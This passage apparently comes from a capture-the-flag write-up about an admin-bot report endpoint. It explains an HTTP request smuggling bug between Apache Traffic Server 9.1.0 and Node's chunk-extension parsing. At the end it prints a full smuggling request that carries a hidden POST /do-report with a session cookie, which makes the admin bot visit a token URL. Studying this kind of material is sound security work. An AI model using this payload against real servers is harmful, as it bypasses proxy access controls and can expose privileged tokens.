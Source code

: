 Hmmm, a `puppeteer` browsing, which kind of suggests some potential Cross-Site Scripting exploit? But let's ignore this for now and focus on what `visit` is doing:

```javascript
const visit = async (url) => {
    const ctx = await browser.createIncognitoBrowserContext()
    const page = await ctx.newPage()

    await page.goto(LOGIN_URL, { timeout: 5000, waitUntil: 'networkidle2' })
    await page.waitForSelector('form')
    await page.type('input[name=email]', process.env.EMAIL)
    await page.type('input[name=password]', process.env.PASSWORD)
    await page.click('button[type="submit"]')
    await page.waitForTimeout(1000)

    try {
        await page.goto(url, { timeout: 5000, waitUntil: 'networkidle2' })
        await page.waitForTimeout(1000)
    } finally {
        await page.close()
        await ctx.close()
    }
}
```

Ahhhh, okay so to put it in layman terms, `report.js` is doing the following:
- `visit` logs the browser into the application with the pre-defined credentials stored in environment variables as seen in the `docker-compose.yml` earlier.
- This means that the browser visits the passed-in `url` from the context of an authenticated admin user when this is performed through the `POST /do-report` endpoint.

Let's for now, focus trying to make a request to the `POST /do-report` endpoint. After some research I came across this [HTTP Request Smuggling vulnerability for nodejs](https://security.snyk.io/vuln/SNYK-ALPINE316-NODEJSCURRENT-2953122) and with more googling around I eventually came across this [CVE](https://lists.apache.org/thread/rc64lwbdgrkv674koc3zl1sljr9vwg21) for the Apache Traffic Server 9.1.0 (which turns out to be similar to [SEETF 2022's](https://ctftime.org/event/1543) flagportal revenge challenge).

Okay, so it seems like this challenge wants us to perform a HTTP Request Smuggling attack in order to bypass the proxy whitelist (as defined in the `remap.config`) and make a `POST /do-report` request directly through the application container itself.

### Abusing Improper Chunk Extension Validations
Let's first understand the conditions necessary for this HTTP Request Smuggling to work:
- Apache Traffic Server 9.1.0 processe Line Feed (LF) (`\n`) as line endings instead of Carriage Return Line Feed (CRLF) (`\r\n`).
- `lhttp` in NodejS v16.3.0 doesn't parse chunk extensions properly, but ignores every byte until a (CR) `\r` is reached.


```bash 
GET /login HTTP/1.1
Host: localhost
Transfer-Encoding: chunked

2 ; xx
f2
0

POST /do-report HTTP/1.1
Host: app:8000
Content-Type: application/json
Content-Length: 37
Cookie: connect.sid=s%3AWJQuXDbK68vu2WoFyeYd_4BF7K83hYWC.M2PqksbXo5wLOai3PcCJSoKucZxS6JeJzsu3b56YPt8

{"url":"http://localhost:8000/token"}
```